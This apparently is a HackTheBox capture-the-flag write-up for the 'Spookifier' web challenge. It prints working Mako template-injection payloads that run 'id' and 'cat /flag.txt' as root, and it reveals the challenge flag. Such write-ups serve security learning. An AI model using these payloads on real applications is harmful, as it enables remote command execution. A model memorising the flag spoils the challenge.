

# Spookifier

## The Problem

Rating: easy


Flavor Text:
```
There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?
```

Attachments : [./web_spookifier.zip](./web_spookifier.zip)


## Solution

so posts to this page comes back with the text in a few different "fonts"

step one does:
```
def spookify(text):
	converted_fonts = change_font(text_list=text)

	return generate_render(converted_fonts=converted_fonts)
```

I think we need to get the formatting correct for the listing

change font does:
```
def change_font(text_list):
	text_list = [*text_list]
	current_font = []
	all_fonts = []
	
	add_font_to_list = lambda text,font_type : (
		[current_font.append(globals()[font_type].get(i, ' ')) for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
		) and None

	add_font_to_list(text_list, 'font1')
	add_font_to_list(text_list, 'font2')
	add_font_to_list(text_list, 'font3')
	add_font_to_list(text_list, 'font4')

	return all_fonts

```

but need it to print in a way that runs system commands
the "'''.format(*converted_fonts)" line could be an issue

generate_render does the print
```
def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        
		<tr>
        	<td>{2}</td>
        </tr>
        
		<tr>
        	<td>{3}</td>
        </tr>

	'''.format(*converted_fonts)
	
	return Template(result).render()
```


so most injection tests dont seem to work out. butttt the $ var indicator broke something

http://206.189.117.93:31729/?text=${{+config.items()[4][1].__class__.__mro__[2].__subclasses__()[40](\"/tmp/flag\").read()+}}



our POC shows we are on the correct path

payload = ${7+7}

curl 'http://206.189.117.93:31729/?text=%24%7B7%2B7%7D'


lets dig in
--------------------
payload = ${ dir() }

result:
``` 
['__M_caller', '__M_locals', '__M_writer', 'context', 'dir', 'pageargs']
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#mako

payload = ${self.module.cache.util.os.system("id")}
result: 0

payload = ${self.module.cache.util.os}
result = <module 'os' from '/usr/local/lib/python3.8/os.py'>

payload = ${self.module.cache.util.os.system}
result = <built-in function system>

payload = ${self.module.cache.util.os.system(%27id%27)}
result 0

payload = ${self.module.cache.util.os.system(%27id%27)}
result 256

I think these require encoding changes as they are getting turned into ints?

need some help as those are not working
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#mako-python


payload = ${self.module.cache.util.os.popen('id').read()}
result = uid=0(root) gid=0(root) groups=1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)


woot!!!

payload = ${self.module.cache.util.os.popen('cat /flag.txt').read()}
result = uid=0(root) gid=0(root) groups=1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
result = HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}

## Flag
```
HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}
```

## Final Notes
